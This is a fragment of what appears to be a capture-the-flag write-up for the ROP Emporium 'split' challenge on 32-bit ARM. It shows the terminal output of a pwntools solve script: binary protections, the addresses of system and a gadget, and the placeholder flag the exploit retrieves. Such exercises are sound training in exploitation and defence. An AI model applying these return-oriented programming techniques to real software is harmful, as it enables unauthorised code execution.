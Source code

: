 ``` sh
02_split# python3 solve.py 
[*] '/w/ropemporium/armv5/02_split/split_armv5'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
[+] Starting local process '/w/ropemporium/armv5/02_split/split_armv5': pid 1118
[*] usefulString=2103c
[*] system=105e0
[*] g_popr3=103a4
[*] Switching to interactive mode
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$ 
``` 









